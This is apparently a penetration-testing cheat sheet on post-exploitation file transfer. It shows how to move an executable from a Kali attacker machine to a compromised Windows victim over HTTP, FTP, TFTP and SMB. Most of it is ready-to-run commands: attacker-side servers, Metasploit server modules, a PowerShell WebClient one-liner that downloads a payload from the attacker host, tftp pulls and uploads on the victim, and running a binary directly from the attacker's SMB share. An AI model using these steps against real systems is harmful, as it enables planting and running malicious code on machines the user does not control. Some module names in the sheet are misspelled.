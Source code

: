 ### Post Exploitation File transfer

#### File Transfer from kali to windows:
Here we will be transferring the `xxxx.exe` from kali to windows
In Kali, utilities like `curl` and `wget` will be exported by default hence, there will no need of covering file transfer methods for them

- [http](#http)
- [ftp](#ftp)
- [tftp](#tftp)
- [SMB](#smb)

##### HTTP Transferring <a name='http'></a>
*Setting UP the server :*
- Apache
- Python 
<h5>Apache:</h5>

```bash
cp xxxx.exe /var/www/html
service apache2 start

#The apache2 server's activity can be verfied with
─[kali@kali]─[~]$ service apache2 status
● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Sat 2020-08-01 04:28:17 EDT; 12s ago

```

<h5>Python:</h5>

```bash
# python2 uses the module SimpleHTTPServer specified with port
python -m SimpleHTTPServer 8080
# python3 uses the module http.server specified with port
python3 -m http.server 8080
# by deafult both uses port no. 8000 when left unspecified
```

*Receiving the file:*
- When GUI is available, fire up the browser and navigate to `http://iamserver:port/xxxx.exe` to download the file
- When only CLI is available, the webclient object is used

```powershell
powershell -c (new-object System.Net.WebClient).DownloadFile('http://iamserver:port/xxxx.exe','C:\download\path\xxxx.exe')
```

##### FTP Transferring <a name='ftp'></a>
- Windows has an inbuilt ftp client located in,`C:\Windows\System32\ftp.exe`

*Setting UP the server:*
- vsftpd
- Python
- Metasploit

<h5>vsftpd :</h5>

- Installing a fully functional `ftp` service in the kali machine

```bash
apt-get install vsftpd
#in the vsftpd.conf
local_enable = yes
write_enable = yes
chroot_list_enable=YES
chroot_list_file=/etc/vsftpd.chroot_list
anonymous_enable=yes
#end of editing config file

vsftpd start 
```

<h5>Python :</h5>

- Python uses the `pytftpd` module

```bash
apt-get install python-pytftpdlib
python -m pytftpd -p 21
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/ftp
set FTPUSER wr3nch
set FTPPASS damnedsec
set FTPROOT directory/path
run
```

*Receiving the file:*
- As `ftp` is pre installed in windows, ftp login to obtain files

```bash
ftp 10.10.10.10
username anonymous
password anonymous
#set the transfer to binary mode
binary
#download file
get xxxx.exe
```

##### TFTP Transferring <a name='tftp'></a>

- `tftp` is installed by default in windows xp machine but is disabled in newer machines
- Through tftp, files can be downloaded in a single command

*Setting UP the server:*
- atftpd
- Metasploit

<h5>atftpd: </h5>
- Linux exports with built in tftp service

```bash
service atftpd start
```

<h5>Metasploit: </h5>

```bash
msfconsole
use auxilary/server/tftp
set TFTPROOT directory/path
run
```

*Receiving the file:*

- Enabling tftp as it is disabled by default in newer machines

```bash
pkgmgr /iu:"TFTP"
```

- tftp doesnt require any authentication
- If installed in the victim machine make use of it

```bash
#download a file
tftp -i 10.10.10.10 GET xxxx.exe

#upload a file
tftp -i 10.10.10.10 PUT xyz.exe
```

##### SMB Transferring <a name='smb'></a>

- SMB is exported builtin with windows

*Setting UP the server:*

- Linux
- Impacket

<h5>Linux: </h5>

```bash
#inastall dependencies
python-glade2 system-config-samba

# Configuring SAMBA
# edit the /etc/samba/smb.conf file
# change the workgroup= WORKGROUP to your network needs and tweak and save the conf file
# restart the samba
sudo service smbd restart
```
<h5>Impacket: </h5>

- The `smbserver.py` in the impackets will take care of every cofigurations and binds to port 445
```bash
python smbserver.py wr3nch directory/path
```
- This can be verified with `SMBCLIENT` which is pre-installed in LINUX
```bash
# connect to the specified IP with no password
# the name wr3nch given when starting the smbserver.py will be shown as the share name
smbclient -L 10.10.10.11 --no-pass
```

*Receiving the file:*

- The smb server is treated as a local share
- Just access it to obtain the files

```bash
# list the contents of the share
dir \\10.10.10.11\wr3nch

# copy files from ther server to the windows machine
copy \\10.10.10.11\wr3nch\xxxx.exe .

# executing files straight from the server 
\\10.10.10.11\wr3nch\xxxx.exe
```
